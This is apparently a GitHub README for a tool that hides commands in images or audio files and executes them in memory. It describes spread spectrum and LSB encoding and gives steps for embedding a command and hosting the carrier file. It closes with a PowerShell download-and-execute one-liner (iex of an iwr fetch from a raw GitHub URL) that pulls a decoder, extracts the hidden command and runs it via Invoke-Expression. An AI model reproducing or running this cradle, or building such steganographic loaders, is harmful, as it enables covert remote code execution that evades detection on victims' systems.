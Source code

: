 # BadSteganography
Bad Steganography is a repo for encoding commands into images or wav files to execute such in memory. 

# Spread Spectrum Encoding
The steganography method used in the provided script is a form of audio steganography known as spread spectrum encoding. In spread spectrum encoding, the hidden message is embedded in a way that spreads its energy across the frequency spectrum of the carrier signal. This makes the hidden message less susceptible to detection and removal by typical audio processing techniques.

In this specific implementation, the amplitude of the audio samples is modified to represent the binary values of the message. By altering the amplitude, the hidden message is encoded into the audio signal, which can later be extracted using the same method.

# LSB Encoding
The steganography method used in the provided code is called “LSB (Least Significant Bit) steganography.” In this method, the least significant bit of each color channel (RGB) of the pixels in a specified region of an image is replaced with a bit of the secret data. This is done in such a way that the change is not visually noticeable in the image, but the secret data can be retrieved by reading the least significant bits of the color channels in the same region.

# Usage
For the spread spectrum encoding script, grab a audio file.
1. Replace the audio path in the py file
2. Replace the message with whatever command in the py file
![BadSteganographyspread_spectrum_decode txt at main · CharlesTheGreat77BadSteganography](https://github.com/CharlesTheGreat77/BadSteganography/assets/27988707/c184577f-c9b1-4bd6-a2ce-643e0a6abf43)
4. Run the py file and save the length of the message
5. In the decoder, replace the message Length variable to whatever the length of your message is (leave it as a multiple of 8)
![Screenshot 2024-01-15 at 1 12 20 PM](https://github.com/CharlesTheGreat77/BadSteganography/assets/27988707/16c9cdc6-ba85-41fb-8beb-d113d976f8b8)
7. Lastly, replace the url in the decoder to where your newly encoded audio file will be hosted.

# Example
This default payload grabs the contents of the decoder, which then downloads the audio to memory, decodes the message, and executes the command with Invoke-Expression
```
iex(iwr https://raw.githubusercontent.com/CharlesTheGreat77/BadSteganography/main/spread_spectrum_decode.txt).Content | iex
```
